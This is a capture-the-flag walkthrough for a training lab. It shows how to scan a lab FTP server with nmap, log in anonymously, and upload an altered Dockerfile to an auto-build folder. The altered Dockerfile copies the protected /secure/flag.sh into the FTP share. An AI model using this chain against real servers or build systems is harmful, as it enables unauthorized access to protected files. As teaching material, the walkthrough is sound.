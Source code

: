 Machines on network:

172\.28.1.6 - **FTP server**

172\.28.1.5 - **Kali Linux container**

Overview of Challenge:

This challenge will involve using an improperly secured FTP server to access and modify a Dockerfile that is set up to be built automatically.

**FTP (File Transfer Protocol)** is used for the transfer of files across a network. You’ll be connecting to an FTP server configured to allow anonymous access, which means you can log in as the user 'anonymous' and typically no password is required.  
  
**Docker:** A platform used to create, deploy, and run applications by using containers. Containers allow a developer to package up an application with all of the parts it needs, such as libraries and other dependencies, and ship it all out as one package. Dockerfiles are used to define these containers and how they should be built. You will be editing a Dockerfile to gain unintended access to a system.

Walkthrough:

## 1) Accessing FTP

Once you have access to the environment you can confirm that the FTP server is running using the following command. 

`nmap 172.28.1.6`

nmap is a tool commonly used by cybersecurity professionals in many roles to scan devices on a network. The output should indicate that port 21 is open, which indicates that ftp is running on this server. to connect using ftp on port 21 use the following command.

`ftp 172.28.1.6 21`

When you are prompted for a username, type "anonymous" (without quotation marks) and for the password do not enter anything and press enter. This allows you access to the FTP server. In the real world anonymous login is incredibly insecure, but someone setting up an FTP server without adequate care can accidentally enable it.

## 2) Exploring the FTP server

To discover what we have access to on the ftp server, use the ls or 'list' command

`ls`

This should provide the following output:
```
\-rw-r--r--             1 0              0              60 May 08 21:40 note.txt 
\-rw-r--r--             1 0              0               29 May 08 21:41 test.txt  
drwxrwxrwx    1 101      103                             4096 May 08 21:41 upload  
```

To pull the two txt files to examine them on our local machine use the following two commands:

`get note.txt`

`get test.txt`

We can then exit the FTP interface using the following command:

`exit`

To examine the contents of the test.txt file we can use the cat command:

`cat test.txt`

The output should be the following:

`Hello from dummy Dockerfile!`

Using the cat command again with the note.txt file:

`cat note.txt`

We get the following hint:

`TODO: remove auto-build script for any Dockerfile in upload`
  
This hint indicates that if we place any file named "Dockerfile" in the upload folder on the FTP server it will automatically be built. Connect to the ftp server again using the same command:  
  
`ftp 172.28.1.6 21`

After logging in anonymously again use the cd command to enter the upload directory:

`cd upload`

If we use the 'ls' command again we can see the following output:

`\-rw-r--r--    1 0        0             163 May 08 21:40 Dockerfile_copy`  
  
Let's pull the Dockerfile_copy using the get command:

`get Dockerfile_copy`

And exit to examine it locally:

`exit`

Create a copy of the file to edit using the cp or copy command:

`cp Dockerfile_copy Dockerfile`

We will now use the vim editor to examine and edit this file. Vim is a very powerful text editor with many shortcuts and features. New users often have difficulty using vim but for now the following simple commands will be sufficient for this challenge:

- Press the "i" button to enter insert mode
  - This mode is the most similar to traditional text editors and will allow you to type and delete characters.
- Use arrow keys to move the cursor (mouse buttons will not work)
- Use : to enter command mode
  - :wq! will cause the current file to be saved and quit

Open the file in vim to edit using the following command:

`vim Dockerfile`

Using the vim commands previously given, we will edit the Docker file. The Dockerfile should initially read:
```
\# Use a base image

FROM alpine:latest

\# Define volumes

VOLUME /ftp
VOLUME /secure

\# Run a simple command`

CMD echo 'Hello from dummy Dockerfile!' > /ftp/test.txt
```
We will explain this Dockerfile line by line. Dockerfiles are essentially instructions on how to set up an environment.

All lines beginning with # are comments intended to clarify the purpose of the lines below them.

`FROM alpine:latest`

This line indicates the image that the docker container will be based on. There are many pre-built container images that are often used as starting points for other containers. There is not much reason to start from scratch when you can use another container image as a starting point.

`VOLUME /ftp`

`VOLUME /secure` 

These lines give mount points for volumes when the container is run. These volumes names give us hints that the container likely will be run with access to these two directories.

`CMD echo 'Hello from dummy Dockerfile!' > /ftp/test.txt`

This line tells the container to create a textfile in /ftp when the container is run. This is the source of the test note we saw earlier.

## 3) Accessing /secure

There are many ways that the Dockerfile can be manipulated to give us the contents of the /secure directory. Without this walkthrough, you would have to run commands like the following in the Dockerfile to explore the directory and identify any items inside:

`CMD ls /secure > /ftp/ls.txt`

This command would run the ls command inside of the /secure directory and put the output in a text file in /ftp where we could log in and access it. Since we already know the contents of the directory though, we simply change the CMD line to the following:

`CMD cat /secure/flag.sh > /ftp/flag.sh`

This will output the contents of flag.sh into a new file in ftp. Save and exit the file in vim and log in to the FTP server. Navigate to the upload folder and use the following command to upload the Dockerfile:

`put Dockerfile`

This will upload the Dockerfile. It may take some time for the Dockerfile to be run as the directory is checked every 60 seconds. Use the ls command to check the upload directory until the Dockerfile dissappears. Then navigate out of the upload directory using the following command:

`cd ..`

Now you should see the flag.sh file. Use the get command to download it and exit FTP. You can now complete the challenge by running the following command:

`bash flag.sh`

You should see the challenge marked as completed in the WebUI. You can now exit the challenge using the following command on the Kali container:

`exit`
